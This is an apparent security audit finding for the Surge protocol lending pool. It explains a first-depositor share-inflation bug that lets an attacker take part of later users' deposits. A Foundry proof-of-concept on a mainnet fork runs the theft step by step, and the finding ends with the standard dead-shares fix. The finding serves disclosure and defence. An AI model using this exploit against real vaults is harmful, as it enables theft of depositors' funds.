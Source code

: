CRYP70

high

# First depositor can steal funds from users by forcibly depositing to the lending pool

# [HIGH-01] - First depositor can steal funds from users by forcibly depositing to the lending pool

## Summary

The surge protocol lending pool allows for users to deposit and withdrawal tokens where if users deposit, shares are minted to the user similarly to that of an ERC4626 vault however, the implementation when calculating shares recieved via the `tokensToShares()` function is exploitable by the first depositor. 


## Vulnerability Detail
The first depositor of the vault is able to artificially manipulate the price of a pool share token by depositing the equivalent of 1 wei to the pool first. Following this they can deposit a normal amount. When the user deposits to the vault, the attacker is able to withdraw their shares to take a profit from the victim's deposit. This is possible because when the first deposit occurs, if supply is zero, the supply will equal the current amount of tokens. However, the `_loanTokenBalance` is being passed to `tokensToShares()` that is obtained via `LOAN_TOKEN.balanceOf()` which the attacker can interface with to manipulate the price of shares by forcibly transferring shares to the pool. 


## Impact
This effectively results in the theft of tokens from other users. This was rated a high in severity because the rate at which pools are continuously deployed by any EOA gives a user intending to cause malice ample opportunity to trigger this bug. The proof of concept below outlines this scenario:

*Proof of Concept*
```solidity
    // SPDX-License-Identifier: UNLICENSED
pragma solidity 0.8.17;

import "forge-std/Test.sol";
import "../src/Pool.sol";
import "../src/Factory.sol";

import "forge-std/console.sol";

interface IWETH9 {
    function deposit() external payable;

    function withdraw(uint256 wad) external;

    function totalSupply() external;

    function approve(address guy, uint256 wad) external returns (bool);

    function transfer(address dst, uint256 wad) external returns (bool);

    function transferFrom(
        address src,
        address dst,
        uint256 wad
    ) external returns (bool);

    function balanceOf(address who) external returns (uint256);
}

contract PoolTest is Test {
    Factory factory;

    address alice = vm.addr(1);
    address bob = vm.addr(2);
    address eve = vm.addr(3);

    address wethDoner = 0xF04a5cC80B1E94C69B48f5ee68a08CD2F09A7c3E;
    address usdcDoner = 0x0A59649758aa4d66E25f08Dd01271e891fe52199;
    address daiDoner = 0xb527a981e1d415AF696936B3174f2d7aC8D11369;

    IWETH9 weth = IWETH9(0xC02aaA39b223FE8D0A0e5C4F27eAD9083C756Cc2);
    IERC20 usdc = IERC20(0xA0b86991c6218b36c1d19D4a2e9Eb0cE3606eB48);
    IERC20 dai = IERC20(0x6B175474E89094C44Da98b954EedeAC495271d0F);

    function setUp() public {
        factory = new Factory(address(this), "G");

        vm.deal(address(alice), 500 ether);
        vm.deal(address(bob), 500 ether);
        vm.deal(address(eve), 500 ether);

        vm.label(address(alice), "ALICE");
        vm.label(address(bob), "BOB");
        vm.label(address(eve), "EVE");
    }

	function testFirstDepositors() public {
	    //  Note this was tested on a mainnet fork
        //  =========== Setup scenario ===========
        vm.startPrank(address(eve));
        weth.deposit{value: 101 ether}();
        vm.stopPrank();

        vm.startPrank(address(alice));
        weth.deposit{value: 200 ether}();
        vm.stopPrank();

        // Assert starting balance
        assertEq(weth.balanceOf(address(eve)), 101 ether);
        assertEq(weth.balanceOf(address(alice)), 200 ether);

        Pool pool = factory.deploySurgePool(
            IERC20(address(dai)),
            IERC20(address(weth)),
            1e18, // Standard values observed in the unit tests
            0.8e18,
            1e15,
            1e15,
            0.1e18,
            0.4e18,
            0.6e18
        ); // Default values

        // =========== Start scenario ===========
        // eve sets up exploit for victim user
        vm.startPrank(address(eve));
        weth.approve(address(pool), weth.balanceOf(address(eve)));
        pool.deposit(1);

        weth.transfer(address(pool), 100 ether);
        vm.stopPrank();

        // Alice, the victim deposits 200 ether into the pool hoping to take part
        vm.startPrank(address(alice));
        weth.approve(address(pool), weth.balanceOf(address(alice)));

        pool.deposit(200 ether);
        vm.stopPrank();

        // eve triggers the bug and removes her balance as well as a chunk of alice's share
        vm.startPrank(address(eve));
        pool.approve(address(pool), pool.balanceOf(address(eve)));

        pool.withdraw(type(uint256).max);
        vm.stopPrank();

        // Shaken by the exploit, alice quickly tries to withdraw
        vm.startPrank(address(alice));
        pool.approve(address(pool), pool.balanceOf(address(alice)));

        pool.withdraw(type(uint256).max);
        vm.stopPrank();

        // Assert Eve has net profited 50 ether
        assertEq(weth.balanceOf(address(eve)), 150.999999999999999999 ether);
        // Assert some of Alice's tokens have been stolen as she started with 200 ether
        assertEq(weth.balanceOf(address(alice)), 150.000000000000000001 ether);
    }
}
```

## Code Snippet
- https://github.com/sherlock-audit/2023-02-surge/blob/main/surge-protocol-v1/src/Pool.sol#L308
- https://github.com/sherlock-audit/2023-02-surge/blob/main/surge-protocol-v1/src/Pool.sol#L324
- https://github.com/sherlock-audit/2023-02-surge/blob/main/surge-protocol-v1/src/Pool.sol#L199-L204

## Tool used

Manual Review

## Recommendation

- Recommend first sending 1000 wei (a very small amount) to the zero address or an address in the protocol's control in order to prevent this attack from happening as the attack becomes way too expensive for attackers (1000 * the initial supply of tokens). This is how UniswapV2 fixed this issue. 

